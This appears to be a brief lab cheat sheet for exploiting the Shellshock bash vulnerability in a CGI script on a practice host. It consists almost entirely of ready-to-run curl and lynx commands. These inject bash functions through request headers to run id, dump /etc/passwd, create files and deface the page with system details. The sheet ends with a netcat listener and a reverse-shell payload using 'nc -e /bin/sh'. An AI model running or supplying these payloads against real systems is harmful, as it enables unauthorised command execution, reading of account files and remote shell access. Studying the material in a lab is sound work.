 ## MOdify Request Header
```
curl -v http://skillsetlocal.com/cgi-bin/vulnscript.sh -H "custom:() { ignored; }; /usr/bin/id"
```

## Checking the error log
```
tail /var/log/apache2/error.log
```

## Command injection
```
curl -v http://skillsetlocal.com/cgi-bin/vulnscript.sh -H "custom:() { ignored; }; echo Content-Type: text-html; echo ; /bin/cat /etc/passwd"
```

## Writing files
```
curl -v http://skillsetlocal.com/cgi-bin/vulnscript.sh -H "custom:() { ignored; }; echo Content-Type: text-html; echo ; /bin/touch /usr/lib/cgi-bin/hacked"
```

## Create a webpage
```
 lynx -useragent="() { ignored; }; /bin/bash -c 'echo -e \"Content-type: text/html\n\"; echo -e \"<html><title>Vulnerable System</title><body>Something Here</body></html>\"'" http://skillsetlocal.com/cgi-bin/vulnscript.sh
```
```
lynx -useragent="() { ignored; }; /bin/bash -c 'echo -e \"Content-type: text/html\n\"; echo -e \"<html><title>Vulnerabe System \`hostname\`</title><body><h1>System Info for \`hostname\`; \`date\`<h2>IP configuration</h2><pre>\`ip addr\`</pre><h2>Apache config</h2><pre>\`cat /etc/apache2/apache2.conf \`</pre></body></html>\"'" http://skillsetlocal.com/cgi-bin/vulnscript.sh
```

## Starting netcat listener
```
nc -lvp 9999
```

## Delivering shell payload
```
curl http://skillsetlocal.com/cgi-bin/vulnscript.sh -H "custom:() { ignored; }; echo Content-Type: text-html; echo ; /bin/nc skillsetlocal.com 9999 -e /bin/sh"
```

## Testing connection
```
sudo -l
```
